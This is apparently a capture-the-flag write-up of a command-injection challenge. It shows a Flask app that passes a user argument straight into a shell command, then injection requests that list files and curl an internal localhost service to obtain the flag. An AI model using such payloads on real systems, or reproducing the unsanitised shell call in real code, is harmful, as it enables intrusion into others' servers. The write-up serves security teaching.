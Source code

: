 Control Panel

Point count: 150pts

Provided files: control-panel.zip

Description: Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

We are presented with a website with source code. Let's examine the main.py file

```
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```

From this, we can see command injection within the second to last line
`return getoutput("/www/destroy_humans.sh " + arg)`


*Command injection: occurs when an application passes unsafe user-supplied data to a system shell*

In this case, the arg variable can be modified to allow shell commands to be ran on the website

We can test this by opening up burpsuite and passing this header:

`GET /?command=destroy_humans&arg=; ls HTTP/1.1`

And it works! We are able to see the system files inside!

But where is the flag? If we examine the source code further, there is a file called destroyer.py

```
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/status':
				resp_ok()
				self.wfile.write(get_json({'status': 'ready to destroy'}))
				return
			elif self.path == "/destroy":
				resp_ok()
				self.wfile.write(get_json({'status': "destruction complete!"}))
				return
			elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

The file states that the endpoint `/shutdown` will reply with a json reply of the flag

But how can we grab it? Simply visiting /shutdown via a browser will return a 404 not found.

We can use curl! Since we have command injection, if we pass curl and curl the endpoint from the server's perspective, we can grab the flag

So, your command should look something like this

`GET /?command=destroy_humans&arg=;%20curl%20-s%20localhost:3000/shutdown HTTP/1.1`

*Note: -s was supplied to prevent the server from replying with the download bar that curl usually outputs.*

We need to supply url encoding inside of burpsuite. %20 represents a space.

Once ran, we get the flag!

Final flag: `SIVBGR{g00dby3_ARI4}`

Final command injection exploit:

![image](https://github.com/sa1181405/pbchocolate-private-writeup-making/assets/170969470/c9d3b0c1-67f2-4da6-ba03-23ede1e31dd4)




